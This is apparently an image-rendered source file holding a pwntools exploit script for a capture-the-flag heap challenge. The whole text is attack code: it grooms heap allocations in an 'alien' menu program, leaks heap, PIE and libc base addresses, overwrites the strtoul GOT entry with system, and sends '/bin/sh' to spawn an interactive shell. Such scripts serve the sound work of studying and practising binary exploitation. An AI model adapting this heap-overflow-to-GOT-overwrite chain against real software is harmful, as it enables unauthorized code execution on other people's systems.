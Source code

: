 ```
makeAlien(248, "3"*346 + '\n')


makeAlien(16, "4"*13 + "\n")


remAlien(2)


makeAlien(248, "5"*240 + p64(544))


remAlien(1)


remAlien(3)


makeAlien(248, "6"*16 + '\n')


# Leak the heap address, and calculate the base of the heap
heapleak = renameAlien(5)
heapBase = heapleak - 0x1820
log.info("heap base: " + hex(heapBase))

# Get the PIE infoleak

remAlien(6)

makeAlien(280, '7'*256 + p64(heapBase + 0x1450) + '\n')

pieleak = renameAlien(5)
pieBase = pieleak - 0x202708
log.info("PIE base: " + hex(pieBase))

# Get the libc infoleak

remAlien(7)

makeAlien(280, '8'*256 + p64(pieBase + 0x202058) + '\n')

strtoul_addr = renameAlien(5, 1)
libc_base = strtoul_addr - libcfile.symbols['strtoul']
log.info("libc base: " + hex(libc_base))

# Write over the got address of strtoul with system

system = libc_base + libcfile.symbols['system']
target.send(p64(system))

# Send /bin/sh which will get passed to strtoul, which due to the got write is really system

target.sendline('/bin/sh')

# Enjoy the shell

target.interactive()
```
